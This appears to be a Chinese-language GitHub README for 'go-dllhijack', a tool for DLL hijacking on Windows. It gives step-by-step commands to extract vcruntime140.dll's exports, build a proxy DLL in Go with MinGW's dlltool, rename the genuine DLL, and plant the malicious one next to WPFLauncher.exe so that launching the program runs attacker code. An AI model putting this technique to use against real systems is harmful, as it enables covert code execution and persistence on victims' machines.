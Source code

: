 # go-dllhijack
基于go的简单劫持方法

在使用前请确保你系统上有GoLang python MinGW

以vcruntime140.dll为例
```sh
git clone https://github.com/famei/go-dllhijack
pip install pefile
python def.py vcruntime140.dll
```
会得到以下输出
![](https://raw.githubusercontent.com/famei/go-dllhijack/main/def.png)
将输出的内容复制到win.def内

新建一个bat脚本
```bat
dlltool --output-exp win.exp --input-def win.def
set GOOS=windows
set GOARCH=386
set CGO_ENABLED=1
go build -buildmode=c-shared -o vcruntime140.dll -ldflags="-extldflags=-Wl,{文件夹绝对路径}\win.exp -s -w"
```
会得到一个vcruntime140.dll文

将正常的vcruntime140.dll重命名为_vcruntime140.dll

将恶意的vcruntime140.dll和_vcruntime140.dl放在同一目录

这里用WPFLauncher.exe作为演示

双击WPFLauncher.exe程序正常运行 恶意代码被成功执行

![](https://raw.githubusercontent.com/famei/go-dllhijack/main/WPFLauncher.png)


